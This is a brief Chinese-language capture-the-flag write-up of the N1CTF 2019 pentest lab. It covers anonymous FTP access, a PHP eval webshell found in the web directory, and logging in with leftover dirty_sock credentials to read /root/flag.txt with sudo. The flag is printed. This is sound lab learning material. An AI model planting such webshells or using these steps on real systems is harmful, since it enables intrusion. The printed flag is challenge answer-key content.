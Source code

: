 # Pentest N1ctf2019.lab(step1)

這題我們用nmap掃到有開ftp

然後發現可以用 anonymous 登入

登入可以看到 web 目錄下面有 php webshell

```php
Welcome to N1ctf2019.lab!

<?=eval($_REQUEST["enjoy~"]);?>
```

直接能RCE

但是提示說 flag 在 `/root/flag.txt`

可是我們是`www-data`，沒辦法訪問

代表可能要提權成root

然後也發現許多人在嘗試使用 dirty sock 提權

不過實際嘗試許久，都沒成功 (似乎是有人提權後，把snapd升級到最新版= =)

後來我發現有一個使用者叫`dirty_sock`

嘗試以`dirty_sock` / `dirty_sock`作為帳號密碼登入

結果竟然成功登入!

(猜測可能是剛好摸到別人打完的結果?)

並且還能sudo:

`sudo cat /root/flag.txt`

=> `N1CTF{ImpOrtant_P0int3_4de0e}`

黑人問號


